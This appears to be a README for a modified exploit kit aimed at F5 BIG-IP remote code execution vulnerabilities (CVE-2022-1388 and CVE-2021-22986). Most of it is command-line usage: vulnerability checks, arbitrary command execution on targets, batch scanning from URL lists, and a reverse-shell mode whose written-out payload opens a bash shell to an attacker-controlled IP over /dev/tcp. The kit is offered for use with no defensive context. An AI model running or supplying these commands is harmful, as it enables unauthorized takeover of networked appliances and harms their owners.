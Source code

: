 # 20221-2021-F5-BIG-IP-IQ-RCE
I modified it so you can use CVE-2022-1388/CVE-2021-22986 and F5 BIG-IP RCE vuln checks and exploiters
the normal check.py and exp.py is 2022 but CVE_2021, newpoc, and f5.rest.jar are from the 2021 version

but all you gotta do is do python check.py to see all cmds

<h2><strong>2021 Basic use</strong></h2

python3 CVE_2021.py
Vuln check: python3 CVE_2021_22986.py -v true -u https://192.168.174.164
command execute: python3 CVE_2021.py -a true -u https://192.168.174.164 -c id
python3 CVE_2021.py -a true -u https://192.168.174.164 -c whoami
batch scan: python3 CVE_2021_22986.py -s true -f url.txt
Reserve Shell: python3 CVE_2021_22986.py -r true -u https://192.168.174.164 -c "bash -i >&/dev/tcp/192.168.174.129/8888 0>&1"
New POC: python3 newpoc.py https://192.168.174.164
Validation mode：python CVE_2021.py -v true -u target_url 
Attack mode：python CVE_2021.py -a true -u target_url -c command 
Batch detection：python CVE_2021.py -s true -f file
Bounce mode：python CVE_2021.py -r true -u target_url -c command 

<h2><strong>2022 Basic use</strong></h2
Vulnerability name: F5 BIG-IP iControl Rest API exposed Check
Function: single detection, batch detection                                    
Single detection：python exp.py -u url
Batch detection：python exp.py -f url.txt
Check: python check.py -f url.txt
